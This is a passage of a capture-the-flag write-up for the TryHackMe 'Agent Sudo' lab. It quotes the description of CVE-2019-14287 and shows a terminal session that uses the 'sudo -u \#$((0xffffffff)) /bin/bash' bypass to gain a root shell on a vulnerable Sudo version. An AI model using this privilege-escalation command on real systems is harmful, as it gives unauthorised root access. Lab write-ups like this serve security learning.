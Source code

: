 ![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Agent%20Sudo/images/cve.PNG?raw=true)

With this info, we can navigate to the [MITRE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287) to learn more about this vulnerability. On this site in the first paragraph, we can see this:

```
In Sudo before 1.8.28, an attacker with access to a Runas ALL sudoer account can bypass certain policy blacklists and session PAM modules, and can cause incorrect logging, by invoking sudo with a crafted user ID. For example, this allows bypass of !root configuration, and USER= logging, for a "sudo -u \#$((0xffffffff))" command.
```
We should test, right? 

```
james@agent-sudo:~$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
james@agent-sudo:~$ sudo -u \#$((0xffffffff)) /bin/bash 
root@agent-sudo:~# ls
Alien_autospy.jpg  user_flag.txt
```
WOW! We are finally a `root` user!
